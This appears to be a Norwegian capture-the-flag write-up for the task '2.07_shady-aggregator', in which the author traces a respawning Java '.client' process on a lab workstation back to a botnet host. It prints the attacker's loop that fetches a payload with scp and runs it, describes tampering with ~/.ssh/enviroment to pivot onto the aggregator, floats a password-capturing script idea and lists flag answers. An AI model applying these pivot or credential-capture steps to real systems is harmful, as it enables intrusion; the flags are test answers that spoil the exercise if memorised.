 # 2.07_shady-aggregator

Ser en ekstern ip på `pwr-ws-caf5db` kjører `.client` i java. Killer jeg den kommer den tilbake. Sjekker prosessen for detaljer

```bash
user@pwr-ws-caf5db ~> ls -lah /proc/8548/
total 0
# fjernet overflødig
lrwxrwxrwx   1 user user 0 Jan  2 17:47 cwd -> /tmp/.tmp/
# fjernet overflødig

user@pwr-ws-caf5db ~> ls -lah /tmp/.tmp/
total 20K
drwxr-xr-x 1 user user  51 Jan  2 17:49 ./
drwxrwxrwt 1 root root  80 Jan  2 17:34 ../
-rw-r--r-- 1 user user 11K Jan  2 17:34 .client
-rw-r--r-- 1 user user 202 Jan  2 17:55 .config
-rw-r--r-- 1 user user  22 Jan  2 17:55 .output
```

Strings på `.config` viser: http://shady-aggregator.utl/

Ser ut som java kommandoen blir kjørt eksternt (typ: `ssh host java -jar .client`). Killer jeg den ser det ut som et script som restarter følgende sekvens: (skrev `ps -aux` veldig fort og fulgte med)

```
scp archive@shady-aggregator:client .client
pkill -f java -jar .client
java -jar .client
```

Ved kjapp kikk på `ps -aux` ser jeg også at den kjører `/usr/bin/ssh-askpass`. Strings på denne viser et skjult flagg:

```
This binary is not intended to be exploited.
Please pretend that it is a real ssh-askpass :)
But you can have an extra flag: 4bab5fe81da1f4e26a8d91e5360039b3
```

Ser også at denne blir satt i `~/.ssh/enviroment` så jeg endrer denne til å peke til `/tmp/test.sh`. I dette bash scriptet har jeg absolutt ingenting, og når jeg da dreper den eksisterende mux og java kommando med følgende:

```
ps -aux | egrep "shady|\.client" | head -n 2 | awk '{print $2}' | xargs kill
```

Så neste gang den angriperen kjører så kan jeg også koble til shady-aggregator med: `ssh archive@shady-aggregator`. Jeg aner ikke hvordan! :) Der ligger dog FLAGG så jeg skriver det inn:

```
Kategori: 2. Oppdrag
Oppgave:  2.07_shady-aggregator
Svar:     98f39fbbb757ad4911567c9a9b5ed3bf
Poeng:    10

Utmerket! Denne maskinen administrerer et botnett.

Det burde være mulig å hoppe videre til de andre enhetene som kontrolleres.
```

Til info, tanken min om test.sh var å prøve å lage noe som spurte om f.eks passord og lagret det i en tekst fil og sendte videre til ssh-askpass, da jeg ikke helt vet hva ssh-askpass gjør. Men ser ut som jeg fikk det til på pure luck.

# Skjult flagg

```
Kategori: 4. Skjulte flagg
Oppgave:  4.1_askpass
Svar:     4bab5fe81da1f4e26a8d91e5360039b3
Poeng:    0

Gratulerer, korrekt svar!
```